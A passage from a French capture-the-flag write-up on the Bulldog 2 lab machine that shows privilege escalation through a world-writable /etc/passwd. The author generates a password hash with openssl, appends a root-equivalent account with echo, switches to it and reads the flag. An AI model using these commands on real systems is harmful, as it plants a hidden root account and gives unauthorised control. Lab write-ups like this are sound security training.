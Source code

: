 ```console
    -rwxrwxrwx 1 root root 1754 Aug  5 21:44 /etc/passwd
    --w--w--w- 1 root root 0 Aug 16 14:54 /var/lib/lxcfs/cgroup/memory/cgroup.event_control
    --w--w--w- 1 root root 0 Aug 16 14:54 /var/lib/lxcfs/cgroup/memory/user.slice/cgroup.event_control
    --w--w--w- 1 root root 0 Aug 16 14:54 /var/lib/lxcfs/cgroup/memory/system.slice/cgroup.event_control
   
<snip>
```

Magnifique, le fichier [/etc/passwd](https://fr.wikipedia.org/wiki/Passwd) est en lecture/écriture pour tout le monde ! Ordinairement, les mots de passe hashés de chaque compte Unix sont stockés dans le fichier [/etc/shadow](http://www.linux-france.org/article/sys/lame/html/x829.html), qui n'est accessible en lecture que par le compte root. Le fichier /etc/passwd, quant à lui, contient la liste des utilisateurs et leurs informations respectives (numéro d'identification, groupe associé, répertoire personnel...). Cependant, si un hash est présent dans /etc/passwd pour un utilisateur donné, il sera tout de même pris en compte par le système !

Le but du jeu va alors consister à ajouter un compte dans /etc/passwd, à lui affecter des valeurs (UID, GID...) équivalentes à root ainsi qu'un mot de passe, et à se connecter avec !

```console
node@bulldog2:/tmp$ openssl passwd -1 -salt blinils passblinils
openssl passwd -1 -salt blinils passblinils
$1$blinils$GMS/wYlG5LdvPsTaINMqH0

node@bulldog2:/tmp$ echo "blinils:\$1\$blinils\$GMS/wYlG5LdvPsTaINMqH0:0:0::/tmp/blinils:/bin/bash" >> /etc/passwd
/blinils:/bin/bash" >> /etc/passwdlG5LdvPsTaINMqH0:0:0::/tmp/

node@bulldog2:/tmp$ su - blinils
su - blinils
Password: passblinils

No directory, logging in with HOME=/
root@bulldog2:/# id
id
uid=0(root) gid=0(root) groups=0(root)

root@bulldog2:/# cat /root/flag.txt
cat /root/flag.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

I'm already working on another more challenging VM. Follow me for updates.
```

Un grand merci à [Nick](https://frichetten.com/) pour cette série Bulldog, deux VM vraiment très chouettes à résoudre ! Vivement les prochaines !